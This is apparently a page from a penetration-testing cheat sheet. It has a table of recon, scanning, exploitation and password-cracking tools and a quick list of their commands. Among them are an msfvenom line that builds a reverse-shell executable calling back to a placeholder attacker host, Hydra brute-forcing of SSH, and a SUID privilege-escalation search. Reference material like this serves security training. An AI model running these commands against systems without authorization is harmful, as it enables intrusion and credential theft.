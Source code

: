 #### Essential Tool Categories

##### **Complete Toolset Matrix:**

| Category         | Tool            | Primary Use       | Key Commands                              |
| ---------------- | --------------- | ----------------- | ----------------------------------------- |
| **Recon**        | Shodan          | Device discovery  | `shodan search webcam country:US`         |
|                  | TheHarvester    | Email harvesting  | `theHarvester -d domain.com -b all`       |
|                  | Amass           | Subdomain enum    | `amass enum -d domain.com`                |
| **Scanning**     | Nmap            | Port scanning     | `nmap -sC -sV -O target`                  |
|                  | Masscan         | Fast scanning     | `masscan -p1-65535 target/24`             |
|                  | Nessus          | Vuln scanning     | GUI-based configuration                   |
| **Web Testing**  | Burp Suite      | Web proxy         | Intercept and modify requests             |
|                  | OWASP ZAP       | Web scanner       | Automated and manual testing              |
|                  | SQLMap          | SQL injection     | `sqlmap -u URL --batch --dbs`             |
| **Exploitation** | Metasploit      | Exploit framework | `msfconsole`                              |
|                  | Empire          | Post-exploitation | PowerShell empire framework               |
|                  | Cobalt Strike   | C2 framework      | Team server operations                    |
| **Password**     | Hashcat         | Hash cracking     | `hashcat -m 0 hash.txt wordlist.txt`      |
|                  | John the Ripper | Password cracking | `john --wordlist=list.txt hashes`         |
|                  | Hydra           | Online cracking   | `hydra -l admin -P pass.txt ssh://target` |



### **Common Commands Quick Reference**

```
# Reconnaissance
whois domain.com
nslookup domain.com
dig domain.com ANY
host -t mx domain.com

# Scanning
nmap -sn 192.168.1.0/24  # Ping sweep
nmap -sS -sV -O target    # SYN scan with version and OS
masscan -p1-65535 --rate=1000 target/24

# Web Testing
nikto -h http://target.com
dirb http://target.com
wfuzz -c -z file,wordlist.txt http://target/FUZZ

# Exploitation
msfvenom -p windows/x64/shell_reverse_tcp \
  LHOST=attacker_ip LPORT=4444 -f exe > shell.exe

# Password Attacks
hashcat -m 1000 hash.txt rockyou.txt  # NTLM
john --format=sha512crypt hash.txt

# Privilege Escalation
# Linux
sudo -l
find / -perm -u=s -type f 2>/dev/null
```
